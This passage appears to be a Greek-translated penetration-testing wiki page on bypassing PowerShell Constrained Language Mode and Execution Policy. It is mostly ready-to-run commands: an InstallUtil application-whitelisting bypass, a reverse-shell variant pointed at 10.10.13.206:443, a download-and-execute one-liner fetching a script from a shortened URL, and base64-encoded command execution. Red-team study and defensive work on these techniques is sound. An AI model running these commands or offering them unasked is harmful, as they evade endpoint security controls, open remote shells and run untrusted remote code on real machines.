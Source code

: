### **Έλεγχος**
```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```
### Παράκαμψη
```powershell
#Easy bypass
Powershell -version 2
```
Στα τρέχοντα Windows, αυτή η παράκαμψη δεν θα λειτουργήσει, αλλά μπορείτε να χρησιμοποιήσετε [**PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**Για να το μεταγλωττίσετε, μπορεί να χρειαστεί** **να** _**Προσθέσετε μια Αναφορά**_ -> _Περιήγηση_ -> _Περιήγηση_ -> προσθέστε `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` και **αλλάξτε το έργο σε .Net4.5**.

#### Άμεση παράκαμψη:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```
#### Αντίστροφη κέλυφος:
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
Μπορείτε να χρησιμοποιήσετε το [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) ή το [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) για να **εκτελέσετε κώδικα Powershell** σε οποιαδήποτε διαδικασία και να παρακάμψετε τη περιορισμένη λειτουργία. Για περισσότερες πληροφορίες, ελέγξτε: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## Πολιτική Εκτέλεσης PS

Από προεπιλογή είναι ρυθμισμένη σε **περιορισμένη.** Κύριοι τρόποι για να παρακάμψετε αυτήν την πολιτική:
```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```
More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
